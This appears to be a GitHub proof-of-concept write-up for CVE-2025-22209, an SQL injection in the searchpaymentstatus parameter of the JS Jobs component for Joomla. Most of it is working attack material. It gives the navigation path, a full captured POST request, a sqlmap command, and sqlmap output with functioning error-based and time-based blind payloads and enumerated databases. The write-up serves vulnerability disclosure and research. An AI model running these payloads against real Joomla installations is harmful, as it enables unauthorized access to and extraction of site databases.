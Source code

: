 # CVE-2025-22209: SQL injection in JS jobs component version 1.1.5 - 1.4.3 for Joomla

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22209

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'searchpaymentstatus' parameter in the Employer Payment History search feature.

## POC
To exploit this vulnerability go to 'Dashboard >> Payments >> Employer History >> Employer Payment History >> Title: test >> Employee Name: test >> Price: test >> Search' and capture the search request. Save the request to a file (req.txt) and run sqlmap through the file to exploit the vulnerable parameter (searchpaymentstatus).

![Alt text](3.png)

**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 209
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; 3fe7c6c5dfe0b5f6afb4c9fb2fa76e2d=68e067f4856a257ca2442db063e4bcc1; fc10f92369cf23c8bddb3e364e3c0e59=3e7941ea2adf0d5092218a8dd72872e1
Connection: keep-alive

searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap/sqlmap.py -r ~/req.txt --batch --dbs

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: searchpaymentstatus (POST)
    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=GTID_SUBSET(CONCAT(0x7178767a71,(SELECT (ELT(3784=3784,1))),0x7176706b71),3784)&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=(SELECT 2450 FROM (SELECT(SLEEP(5)))mdKf)&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
